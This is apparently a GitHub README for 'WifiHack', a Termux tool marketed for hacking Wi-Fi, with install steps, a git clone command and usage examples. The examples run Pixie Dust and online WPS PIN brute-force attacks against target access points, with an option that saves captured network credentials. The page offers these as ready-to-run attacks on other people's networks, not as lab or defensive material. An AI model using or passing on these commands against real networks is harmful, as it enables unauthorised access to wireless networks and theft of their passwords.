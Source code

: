 
### Hack WIfi Using Termux! (Requires Root)
<p align="center"><img src="https://i.ibb.co/ygb9X0K/Screenshot-2023-04-13-12-18-19-365-com-termux.jpg"></p>

## [Termux](https://termux.com/)
Please note that root access is required.  

### Manually
**Installing requirements**
 ```
 pkg install -y root-repo
 ```
 ```
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
 ```
### Getting WifiHack
 ```
 git clone --depth 1 https://github.com/Gtajisan/WifiHack
 ```
 ```
 cd WifiHack
 ```
### Running
 ```
 sudo python binod.py -i wlan0 -K
 ```
### One line Command
 ```
 sudo python WifiHack/binod.py -i wlan0 -K
 ```

# Usage
```
 binod.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 binod.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 binod.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 binod.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 binod.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running WifiHack with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
# Acknowledgements
## Special Than all root users 
* FARHAN X ME
## [Facebook](https://www.facebook.com/profile.php?id=100094924471568&mibextid=ZbWKwL)

## [Whatsapp](https://wa.me/+880130505723*)

## Thanks For Using This Tool 🐸🙄
## ki obsta 🤡
## cd WifiHack sudo python WifiHack/binod.py -i wlan0 -K
